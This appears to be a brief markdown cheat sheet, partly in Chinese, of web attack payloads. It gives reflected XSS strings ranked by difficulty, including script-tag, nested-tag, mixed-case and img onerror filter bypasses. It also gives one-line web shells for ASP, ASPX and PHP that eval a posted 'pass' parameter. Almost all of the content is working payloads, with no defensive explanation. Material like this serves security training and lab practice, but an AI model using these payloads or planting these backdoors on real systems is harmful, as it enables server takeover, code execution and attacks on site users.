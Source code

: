 #
```


```

## R-XSS
初階
```
<b>AAAAA</>
<marquee>人生跑馬燈</marquee>

<script>alert(/有漏洞 xss/)</script>
```

中階
```
<sc<script>ript>alert(/xss/)</script>
```
```
2.大小寫混淆繞過

輸入<ScRipt>alert(/xss/)</script>

```
高階
```
<img src=1 onerror=alert(/xss/)>
```


# file upload 
```
一句話木馬
asp的一句話是：

<%eval request ("pass")%>

aspx的一句話是：
<%@ Page Language="Jscript"%> <%eval(Request.Item["pass"],"unsafe");%>

php的一句話是：
<?php @eval($_POST['pass']);?>
```
